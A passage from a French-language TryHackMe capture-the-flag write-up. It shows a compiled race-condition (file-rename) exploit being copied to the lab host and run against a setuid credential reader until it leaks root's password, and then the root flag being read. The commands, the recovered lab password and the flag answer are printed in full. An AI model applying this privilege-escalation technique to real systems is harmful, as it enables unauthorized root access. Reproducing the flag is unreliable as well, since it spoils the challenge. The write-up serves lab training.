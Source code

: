```bash
}
tim@kali:~/Bureau/tryhackme/write-up$ gcc rename.c -o rename

scp: /root_access/rename: No such file or directory
tim@kali:~/Bureau/tryhackme/write-up$ scp ./rename frank@toc2.thm:~/root_access/
frank@toc2.thm's password: 
rename                                      

```

On télécharge un fichier pour exploiter une race condition, on le compile et on le transfère sur la machine cible. 

```bash
frank@toc:~/root_access$ touch pwd
frank@toc:~/root_access$ ./rename pwd root_password_backup &
[1] 3270
frank@toc:~/root_access$ touch pwd
frank@toc:~/root_access$ ./readcreds root_password_backup
Cannot open root_password_backup 
frank@toc:~/root_access$ ./readcreds root_password_backup
Cannot open root_password_backup 
frank@toc:~/root_access$ ./readcreds root_password_backup
Cannot open root_password_backup 
frank@toc:~/root_access$ ./readcreds root_password_backup
frank@toc:~/root_access$ ./readcreds root_password_backup
frank@toc:~/root_access$ ./readcreds root_password_backup
Root Credentials:  root:aloevera 
```

On crée un faux fichier qui va servir de fichier d'échange avec celui de root_password_backup.   
On lance notre race condition en tâche de fond.   
Après plusieurs essais on arrive à avoir les identifiants : root:aloevera.    

```bash
frank@toc:~/root_access$ su root
Password: 
root@toc:/home/frank/root_access# cat /root/root.txt
thm{7265616c6c696665}
```

On s'identifie en tant que root.  
On lit le fichier root.txt   

La réponse est : thm{7265616c6c696665}    

